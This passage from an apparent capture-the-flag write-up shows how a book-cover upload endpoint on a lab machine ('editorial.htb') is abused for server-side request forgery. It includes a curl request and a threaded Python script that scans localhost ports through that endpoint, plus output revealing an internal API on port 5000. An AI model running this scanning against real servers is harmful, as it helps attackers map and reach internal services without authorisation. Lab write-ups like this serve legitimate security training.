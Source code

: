 After some time I decided to do a port scan with the reflected calls by using the /upload-cover endpoint to send a call to every port between 1 <> 10000 to see if anything came back. I started by copying the request from burpsuite as a curl command, and then converted it with some help from copilot to generate the /static/images url (when it should work), and then to call the /static/images/guid uri directly before the content expired.

The hope was to create a quick way to iterate through whatever content I wanted.

As you can see below (truncating the range for brevity of this writeup), I found an internal API on 5000.


```python
import requests
from concurrent.futures import ThreadPoolExecutor

#response = !curl --path-as-is -s -X $'POST' \
#    -H $'Host: editorial.htb' -H $'Content-Length: 305' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36' -H $'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryscnORoWBhxDxvabA' -H $'Accept: */*' -H $'Origin: http://editorial.htb' -H $'Referer: http://editorial.htb/upload' -H $'Accept-Encoding: gzip, deflate, br' -H $'Accept-Language: en-US,en;q=0.9' -H $'Connection: keep-alive' \
#    --data-binary $'------WebKitFormBoundaryscnORoWBhxDxvabA\x0d\x0aContent-Disposition: form-data; name=\"bookurl\"\x0d\x0a\x0d\x0ahttp://127.0.0.1:80\x0d\x0a------WebKitFormBoundaryscnORoWBhxDxvabA\x0d\x0aContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\x0d\x0aContent-Type: application/octet-stream\x0d\x0a\x0d\x0a\x0d\x0a------WebKitFormBoundaryscnORoWBhxDxvabA--' \
#    $'http://editorial.htb/upload-cover' --output - | gunzip
# Python equivalent to this curl
ssrf = requests.post('http://editorial.htb/upload-cover', files={'bookfile': ''}, data={'bookurl': 'http://127.0.0.1:80'})
print(ssrf.text)

def test_port(port):
    if port % 500 == 0:
        print(f'Testing port {port}')
    response = requests.post('http://editorial.htb/upload-cover', files={'bookfile': ''}, data={'bookurl': f'http://127.0.0.1:{port}'})
    if 'jpeg' not in response.text:
        print(f'Port {port} is open')
        result = requests.get(f'http://editorial.htb/{response.text}')
        print(result.text)

with ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(test_port, range(4999, 5001)) # Truncated for demonstration purposes
    
```

    /static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg
    Testing port 5000
    Port 5000 is open
    {"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}
    